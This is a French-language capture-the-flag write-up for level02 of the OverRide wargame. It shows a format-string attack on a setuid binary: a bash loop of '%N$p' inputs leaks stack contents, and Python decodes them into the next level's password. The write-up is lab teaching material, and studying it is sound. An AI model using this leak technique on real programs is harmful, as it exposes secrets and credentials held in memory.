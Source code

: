 # Level 02

```
level02@OverRide:~$ file level02
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

Ici tous les buffers sont securises, pas contre un appel a printf est mal formate.
Nous allons donc essayer d'afficher le .pass qui a ete open par le programme et qui est dans la stack grace a un appel a read.

On peut donc afficher toutes les premieres adresses de la stack avec le script bash dans le dossier resources.

Nous remarquons que seul quelques adresse a la suite sont remplies.
On cherche les 5 a la suite du buffer, car 5 * 8 octets = 40 (la taille du buffer sans le null byte de fin)

On peut donc les decoder de hexa vers ascii, en inversant chaque byte du au little endian, puis assembler le tout.
```bash
$ for((i=1;i<42;++i)); do echo "$i/%$i\$p" | ./level02 | grep does; done;
1/0x7fffffffe470 does not have access!
2/(nil) does not have access!
...
22/0x756e505234376848 does not have access!
23/0x45414a3561733951 does not have access!
24/0x377a7143574e6758 does not have access!
25/0x354a35686e475873 does not have access!
26/0x48336750664b394d does not have access!
...
38/(nil) does not have access!
39/(nil) does not have access!
40/0x2900000000 does not have access!
41/0x602010 does not have access!

$ python
>>> bytes.fromhex("756e505234376848")[::-1]
b'Hh74RPnu'
>>> bytes.fromhex("45414a3561733951")[::-1]
b'Q9sa5JAE'
>>> bytes.fromhex("377a7143574e6758")[::-1]
b'XgNWCqz7'
>>> bytes.fromhex("354a35686e475873")[::-1]
b'sXGnh5J5'
>>> bytes.fromhex("48336750664b394d")[::-1]
b'M9KfPg3H'
```

